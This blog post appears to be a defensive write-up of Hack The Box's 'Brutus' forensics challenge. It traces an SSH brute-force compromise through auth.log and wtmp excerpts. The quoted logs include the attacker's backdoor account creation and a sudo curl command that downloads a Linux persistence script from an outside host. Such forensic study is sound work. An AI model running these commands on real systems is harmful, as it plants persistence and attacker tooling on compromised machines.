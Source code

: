 ```yaml
---
slug: htb-sherlock-brutus
title: 'HTB Sherlock: Brutus'
authors: [cielo]
date: 2025-09-16
tags: [security, hack-the-box, tutorial, dfir]
---
```


[Hack The Box](https://www.hackthebox.com/) is an online cybersecurity training platform that allows individuals to test and advance their skills in penetration testing, digital forensics, and incident response. The "Sherlocks" are a series of defensive challenges focused on digital forensics and incident response (DFIR).

This post covers the "Brutus" Sherlock - investigating a brute-force attack against a Confluence server's SSH service. I'll walk through analyzing logs to trace the attacker's path from initial access to privilege escalation and persistence.

<!--truncate-->

## Getting Started

After downloading and unzipping `Brutus.zip`, there are three files:
*   `auth.log`: A log file from Unix-like systems that records user logins, authentication attempts, and other security-related events.
*   `wtmp`: A binary file that maintains a history of user logins and logouts.
*   `utmp.py`: A Python script to parse the binary `wtmp` file into a human-readable format.

## The Investigation

### T1: Attacker's IP Address
> Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

**Answer:** `65.2.161.68`

Looking through `auth.log`, there's a massive flood of failed login attempts from the same IP address. Pretty clear brute-force pattern here:

```bash
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: Invalid user admin from 65.2.161.68 port 46392
Mar  6 06:31:31 ip-172-31-35-28 sshd[2332]: Invalid user admin from 65.2.161.68 port 46444
Mar  6 06:31:31 ip-172-31-35-28 sshd[2331]: Invalid user admin from 65.2.161.68 port 46436
... (many more attempts)
```

### T2: Compromised Username
> The bruteforce attempts were successful and the attacker gained access to an account on the server. What is the username of the account?

**Answer:** `root`

After all those failed attempts, the logs finally show a successful password acceptance for the `root` user. That's never good to see...

```bash
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

### T3: Manual Login Timestamp (UTC)
> Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

**Answer:** `2024-03-06 06:32:45 UTC`

To find the actual login time, I needed to analyze the `wtmp` file using the provided `utmp.py` script. Running `python3 utmp.py wtmp > wtmp.txt` gives a readable version with this entry:

```text
"USER"	"2549"	"pts/1"	"ts/1"	"root"	"65.2.161.68"	"0"	"0"	"0"	"2024/03/06 14:32:45"	"387923"	"65.2.161.68"
```

The timestamp shows `14:32:45`, but there's a timezone catch here. The `auth.log` shows authentication at `06:32:44` UTC, while the `wtmp` parser is showing local time (probably UTC+8 based on the 8-hour difference). Converting back to UTC gives us the login time as `2024-03-06 06:32:45`.

### T4: Session Number
> SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

**Answer:** `37`

There were actually two successful `root` logins from the attacker's IP - Session 34 and Session 37. But Session 34 was super brief:

```bash
# Session 34: Quick automated login/logout
Mar  6 06:31:40 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar  6 06:31:40 systemd-logind[411]: New session 34 of user root.
Mar  6 06:31:40 sshd[2411]: pam_unix(sshd:session): session closed for user root
Mar  6 06:31:40 systemd-logind[411]: Removed session 34.

# Session 37: The real interactive session
Mar  6 06:32:44 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 systemd-logind[411]: New session 37 of user root.
```

Session 34 looks like a brute-force tool just checking if credentials work, then immediately disconnecting. Session 37 is where the actual human activity happened.

### T5: Persistence - New User
> The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

**Answer:** `cyberjunkie`

Classic persistence move - create a backdoor user account. The `auth.log` shows the user creation:

```bash
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
```

### T6: MITRE ATT&CK ID
> What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

**Answer:** `T1136.001`

This maps to MITRE ATT&CK technique T1136: Create Account, specifically the sub-technique T1136.001: Local Account. Pretty textbook persistence technique.

### T7: Session End Time
> What time did the attacker's first SSH session end according to auth.log?

**Answer:** `06:37:24` on March 6th.

Looking for when session 37 ended:

```bash
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Received disconnect from 65.2.161.68 port 53184:11: disconnected by user
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

### T8: Sudo Command for Privilege Escalation
> The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

**Answer:** `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

After setting up the `cyberjunkie` user with sudo privileges, the attacker came back and used it to download what looks like a privilege escalation script:

```bash
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

The script name "linper.sh" (probably "Linux Persistence") from montysecurity's repo suggests this is for maintaining access and escalating privileges further. Not good news for the compromised server.

## Reflections

This Sherlock was a good exercise in log analysis and understanding attacker behavior patterns. The most tricky part for me was definitely the Session 34 vs Session 37 confusion - I initially thought Session 34 was the answer since it was the first successful login I spotted in the logs.

But looking deeper at the timing and behavior patterns made it clear that Session 34 was just an automated tool verification (login and immediate logout in the same second), while Session 37 was the actual human interactive session where all the malicious activity happened. This is a great reminder that brute-force tools often do quick credential validation before the attacker manually logs in.

The timezone issue with the wtmp parsing also caught me off guard initially. It's easy to forget that different log sources might be in different timezones or that parsing scripts can introduce timezone conversions. Always good to cross-reference timestamps across different artifacts.

Overall, this scenario does a nice job of showing the full attack chain: 

:::tip Complete Attack Chain
a. 🔓 **Initial access** - brute force attack

b. ⚡ **Privilege escalation** - gained root access

c. 👤 **Persistence** - backdoor user creation

d. 🛠️ **Tool deployment** - downloading additional tools
:::
 
Pretty textbook attacker playbook, and the logs tell the story clearly once you know what to look for.
